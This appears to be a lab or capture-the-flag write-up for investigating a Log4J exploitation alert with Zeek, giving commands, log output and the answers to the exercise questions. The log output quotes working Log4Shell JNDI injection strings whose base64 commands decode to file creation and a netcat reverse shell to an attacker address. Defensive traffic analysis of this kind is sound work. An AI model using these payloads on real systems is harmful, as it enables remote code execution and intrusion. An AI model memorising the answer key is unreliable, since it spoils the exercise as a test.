

# Log4J

An alert triggered: `Log4J Exploitation Attempt`.

The case was assigned to you. Inspect the PCAP and retrieve the artefacts to confirm this alert is a true positive. 

## Questions

Investigate the `log4shell.pcapng` file with `detection-log4j.zeek` script. 

    zeek -C -r log4shell.pcapng detection-log4j.zeek

Investigate the `signature.log` file. **What is the number of signature hits?**

```text
ubuntu@ip-10-10-177-209:~/Desktop/Exercise-Files/log4j$ cat signatures.log | zeek-cut uid | wc -l
3
```

Investigate the `http.log` file. **Which tool is used for scanning?**

```text
ubuntu@ip-10-10-177-209:~/Desktop/Exercise-Files/log4j$ cat http.log | zeek-cut user_agent
...
Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)
```

Investigate the `http.log` file. **What is the extension of the exploit file?**

```text
ubuntu@ip-10-10-177-209:~/Desktop/Exercise-Files/log4j$ cat http.log | zeek-cut uri | uniq
/
/ExploitQ8v7ygBW4i.class
/
/ExploitSMMZvT8GXL.class
/
/Exploit6HHc3BcVzI.class
/
testing1
/testing1
/testing123
/
```

Investigate the `log4j.log` file. Decode the base64 commands. **What is the name of the created file?**

```text
ubuntu@ip-10-10-177-209:~/Desktop/Exercise-Files/log4j$ cat log4j.log | zeek-cut value | uniq
${jndi:ldap://192.168.56.102:389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}
${jndi:ldap://192.168.56.102:389/Basic/Command/Base64/d2hpY2ggbmMgPiAvdG1wL3B3bmVkCg==}
${jndi:ldap://192.168.56.102:389/Basic/Command/Base64/bmMgMTkyLjE2OC41Ni4xMDIgODAgLWUgL2Jpbi9zaCAtdnZ2Cg==}
${jndi:ldap://127.0.0.1:1389}
${jndi:ldap://192.168.56.102}
${jndi:ldap://192.168.56.102:389}
${jndi:ldap://192.168.56.102:389/test}
${jndi:ldap://192.168.56.102:389}
```

| 
|:--:|
| `pwned` |

That's it.
